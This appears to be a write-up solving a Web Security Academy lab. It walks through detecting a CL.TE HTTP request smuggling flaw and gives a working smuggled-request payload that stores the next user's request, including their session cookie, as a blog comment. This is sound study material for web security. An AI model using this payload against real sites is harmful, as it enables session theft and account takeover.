





# Exploiting HTTP request smuggling to capture other users' requests
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

# Solution
## Analysis
### Post comment funcionality
||
|:--:| 
| *Posts comment funcionality* |

###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation

Read `csrf` token value from browser console:
```
document.querySelector('input[name="csrf"]').value;
```

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=thfAgmOfPbmPeVWvSHCCmfF8a3saXlDU
Content-Type: application/x-www-form-urlencoded
Content-Length: 329
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=c91FQAALRHqe6aVZq7MLClsocCWnUnfC
Content-Type: application/x-www-form-urlencoded
Content-Length: 926

csrf=pnw25B3VWRP9fl19EjZKsNGkn2J8xAzi&postId=9&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

||
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
||
| *Request was smuggled successfuly - final payload* |
||
| *Request was smuggled successfuly - session token in comment* |

